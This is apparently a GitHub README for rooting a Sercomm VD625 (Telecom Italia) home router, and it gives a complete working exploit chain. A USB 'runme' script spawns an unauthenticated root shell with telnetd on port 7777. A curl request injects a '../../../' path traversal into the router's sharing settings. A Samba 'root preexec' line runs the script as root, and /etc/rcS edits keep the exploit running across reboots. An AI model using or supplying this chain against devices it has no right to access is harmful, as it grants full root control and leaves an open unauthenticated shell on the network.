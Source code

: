 Root Sercomm VD625
==================

[![size](https://img.shields.io/github/repo-size/xmase/Sercomm-VD625.svg)](https://github.com/xMase/Sercomm-VD625)
[![license](https://img.shields.io/github/license/xMase/Sercomm-VD625.svg)](https://github.com/xMase/Sercomm-VD625)


- activate the router usb sharing by insert a fat32 formatted stick with the **runme** file inside it:

```sh
    #!/bin/sh
    
    exec > /mnt/shares/USB2FlashStorage/Partition1/it_worked 2>&1
    set -x

    ps
    date
    
    iptables -D INPUT -i ! br0 -p tcp --dport 7777 -j DROP >/dev/null 2>&1
    iptables -I INPUT -i ! br0 -p tcp --dport 7777 -j DROP    
    /bin/telnetd -F -p 7777 -l /bin/sh&
```

- run the **curl** command to enable folder sharing:

    **(csrf_token should be updated each time by taking it from a random webgui request)**

```sh
curl -X POST -i 'http://192.168.1.1/data/settings_content_sharing_device.json?_=1551786266690&csrf_token=HK08CC1C89JW113A2638' --data 'sharing_device=[{"device_id":"1","root_folder":"/","ns_content_sharing_enable":"1","ns_require_username_password":"0","ns_user_id":"1","ns_share_all_folders":"0","ns_share_folder_data":"1|root|../../../:0|Partition1|:"}]'
```

- once done, disable and re-enable the usb sharing function from the router to apply the changes

- navigate with **dolphin** on the newly shared folder (*on windows use network sharing*)

>smb://admin@RouterIp/

- samba process was spawned with the user **nobody** who does not have root privileges, to remedy this, replace the router ***/etc/samba/smb.conf*** file with the one in the shared folder on the usb key

- example of modified **smb.conf** file:

```ini
    [global]
    ...
    log file = /tmp/a1
    
    config file = /etc/samba/smb.conf (remove this)

    [Partition1]
    ...
	root preexec = /bin/sh -c "/mnt/shares/USB2FlashStorage/Partition1/runme &" 
```

- This config file force samba to **run telnet as root on port 7777**

- to start samba *preexec* navigate in **/Partition1/USB2FlashStorage/Partition1/** and **/root/etc/samba/** multiple times

- in the **/tmp/** directory the file **a1** will appear which will be a smbd log for debugging errors

- in the folder **/Partition1/USB2FlashStorage/Partition1/** the file **it_worked** will appear which will show us the success of the procedure

- now can **connect** to the **router ip on port 7777** with **telnet**

- remount the root folder in **rw** mode<br>
    **(/dev/mtdblock7 - /dev/mtdbloc6 in this case I am on block 7)**

>mount -n -t jffs2 -o rw,remount /dev/mtdblock7 /

- insert this changes in **/etc/rcS** to **autorun** the **exploit** on startup:<br>
    **(please note that the USB must always remain connected to the router)**

```sh
    ...
    # after this line "mount -n -t ramfs ramfs /tmp":
    ...
    # log
    exec > /tmp/bootlog 2>&1
    set -x
    ...
    # chage this "rc init > /dev/null" to rc "init"
    ...
    # after last line insert:
    ...
    # my
    mkdir -m 0777 /mnt/my/ 
    mount -n -t vfat -o rw /dev/sda1 /mnt/my/ 
    /usr/sbin/ls "/mnt/my" 
    ((/usr/sbin/sh /mnt/my/runme 0<&- &>/dev/null &) &)
```

- before restarting the device **disable the shared folders on the router** and **remount the root folder in ro** mode

```sh
    mount -n -t jffs2 -o ro,remount /dev/mtdblock7 /
    reboot
```

Tips
====

SercommVD625.iso Telecom Italia_VD625_AGSOT_1.0.8.tar/Telecom Italia_VD625_AGSOT_1.0.8/VD625_v1.0.8/build/VD625/target.tgz => **gui files**

AGSOT_1.0.8.img => **to extract the router upgrade image first use sercomm_fwutils-master and than python jefferson to extract fs**

To view the router configuration use the command **"cmld_client get_node Device."**.

Contribute code
===============

If you have any **ideas**/**solutions**/**improvements** to be included in this project, **feel free to submit a pull request**.